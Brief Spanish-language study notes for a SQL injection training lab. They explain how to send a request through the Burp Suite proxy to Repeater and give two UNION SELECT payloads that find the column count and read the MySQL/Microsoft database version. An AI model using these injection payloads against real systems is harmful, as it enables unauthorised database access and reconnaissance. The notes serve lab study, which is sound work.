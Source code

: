 ## 7. [LAB 7 SQLi attack, querying the database type and version on MySQL and Microsoft](https://www.youtube.com/watch?v=7afmKPDaZtw&t=1s)
* En burp suit community enciende el "proxy" pones el link el laboratorio en el que trabajas "burp suite chromium" de ahi lo mandas al "repeater" y pones en lo siguiente 
    * '+UNION+SELECT+'abc','def'#
    * '+UNION+SELECT+@@version,+NULL#                            
![alt text](image-2.png)
![alt text](image-1.png)